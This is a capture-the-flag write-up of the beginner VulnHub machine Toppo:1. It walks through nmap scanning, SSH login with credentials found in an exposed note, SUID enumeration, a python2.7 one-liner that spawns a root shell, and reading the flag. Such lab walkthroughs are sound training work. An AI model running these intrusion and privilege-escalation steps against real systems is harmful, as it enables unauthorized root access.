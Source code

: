 ```yaml
---
title: "CTF Write Up : Toppo 1"
description: "Toppo 1 CTF Writeup"
layout: post
---
```

I've been getting back into hackerering _Capture The Flag_ virtual machines from [VulnHub](https://www.vulnhub.com) recently.
To get back into the swing of things I chose [Toppo:1](https://www.vulnhub.com/entry/toppo-1,245/).
It's aimed at beginners and requires no advanced exploitation techniques or really any advanced tools,
so it's good for beginner InfoSec enthusiasts and rusty beginner InfoSec enthusiast gits like myself.

### WARNING: This write up contains spoilers for the challenge.. obviously

**DISCLAIMER: I'm not responsible for how you use the information presented in these write ups, if you do something illegal with the information presented here and get caught, it's on you.**

Now that's out of the way, let's get started. 

### Information Gathering

After firing up the target VM and identifying it's IP on the `vboxnet0` network it's time to check the running services on the target:
{% highlight terminal %}

root@kali:~# nmap -sV 192.168.56.102
-- SNIP --
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1
80/tcp  open  http    Apache httpd 2.4.10
111/tcp open  rpcbind 2-4 (RPC #100000)
-- SNIP --

{% endhighlight %}

nmap reveals http, ssh and RPC daemons running on the target.

### Checking for hidden directories, files or login pages on the webserver

Turns out there's an unprotected `admin/` directory with a text file called `note.txt`.
Here's the contents:
>Note to myself :
>
>I need to change my password :/ 12345ted123 is too outdated but the technology
>isn't my thing i prefer go fishing or watching soccer .

Looks like a set of keys to the kingdom. The username looks nested into the password.

Using the credentials to gain access via SSH:
{% highlight terminal %}

root@kali:~# ssh ted@192.168.56.102
-- SNIP --
ted@192.168.56.102's password:
-- SNIP --
ted@Toppo:~$

{% endhighlight %}

### Unprivileged Access

**hacker voice: "I'm in"**

Good, but it's not root.

### Exploiting a misconfigured SUID executable to escalate privileges

SUID which stands for "Set User ID" allows users to execute a file with the
permissions of a specified user. In this case, we want to find the executables
which run as the root even when other users execute them.

There's a great quick-start tutorial [here](https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/) from null-byte on how to escape an interactive nmap session to a root shell.

Identify the executables with the SUID bit set owned by root:
{% highlight terminal %}
ted@Toppo:~$ find / -uid 0 -perm -4000 -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
{% endhighlight %}

The thing of note in that list is python2.7, I've seen other binaries like nmap and
vim in previous vulnhub CTF's, but this is the first time I've seen python.

Python means that we can get root shell with a one liner:
{% highlight terminal %}
ted@Toppo:~$ python2.7 -c 'import os; os.system("/bin/sh")'
# whoami
root
#
{% endhighlight %}

### Capturing the flag
{% highlight terminal %}
# cd root
# ls
flag.txt
# cat flag.txt
 _________                                 
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'
                 [__|     [__|




Congratulations !
there is your flag :
0wnedlab{p4ssi0n_c0me_with_pract1ce}
{% endhighlight %}
